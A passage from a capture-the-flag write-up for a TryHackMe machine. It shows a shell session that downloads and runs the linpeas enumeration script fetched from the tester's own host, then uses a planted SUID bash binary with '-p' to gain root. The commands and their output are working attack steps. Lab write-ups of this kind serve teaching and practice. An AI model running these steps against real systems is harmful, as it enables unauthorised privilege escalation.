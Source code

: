 - Running Linpeas

```bash
james@overpass-production:/$ cd /dev/shm
james@overpass-production:/dev/shm$ wget http://10.17.7.91:8000/linpeas.sh
--2021-05-20 09:00:05--  http://10.17.7.91:8000/linpeas.sh
Connecting to 10.17.7.91:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325865 (318K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 318.23K   299KB/s    in 1.1s    

2021-05-20 09:00:07 (299 KB/s) - 'linpeas.sh' saved [325865/325865]

james@overpass-production:/dev/shm$ ls
linpeas.sh
james@overpass-production:/dev/shm$ chmod +x linpeas.sh 
james@overpass-production:/dev/shm$ ./linpeas.sh | tee linpeas.out
```

- Opps, I missed the hint in tryhackme. Going back to `/home/james`,  I was able to find hidden executable **.suid_bash**
- Privilege Escalation using `.suid_bash`:

```bash
james@overpass-production:/home/james$ ls -la
total 1140
drwxr-xr-x 7 james james    4096 May 20 08:51 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 May 20 09:00 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw------- 1 james james       5 May 20 08:51 .python_history
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www

james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```

### What's the root flag?
- **Answer:** thm{REDACTED}
- **Steps to Reproduce:** 
